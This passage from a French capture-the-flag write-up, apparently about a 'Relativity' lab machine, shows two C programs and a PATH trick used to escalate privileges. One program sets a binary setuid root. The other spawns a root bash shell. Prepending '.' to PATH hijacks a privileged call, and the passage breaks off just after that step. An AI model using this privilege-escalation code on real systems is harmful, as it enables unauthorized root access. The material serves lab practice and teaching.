 ![Fonctionnement de auth_server](https://raw.githubusercontent.com/devl00p/blog/master/images/relativity9.png)

Modifions quelque peu les choses. D'abord écrivons un programme *fortune.c* comme suit dont le rôle est de passer un binaire à nous baptisé *gotroot* en setuid root :

```c
#include <unistd.h>
#include <stdio.h>

int main(void)
{
  chown("/home/jetta/gotroot", 0, 0);
  chmod("/home/jetta/gotroot", 04777);
  printf("Done");
  return 0;
}
```

puis le programme *gotroot.c* qui nous donnera un shell avec les privilèges du super utilisation :

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main(void)
{
  setuid(0);
  setgid(0);
  system("/bin/bash");
  return 0;
}
```

On compile les deux, on modifie le path (*export PATH=.:$PATH*, on le voit pas dans la capture) et on profite :  
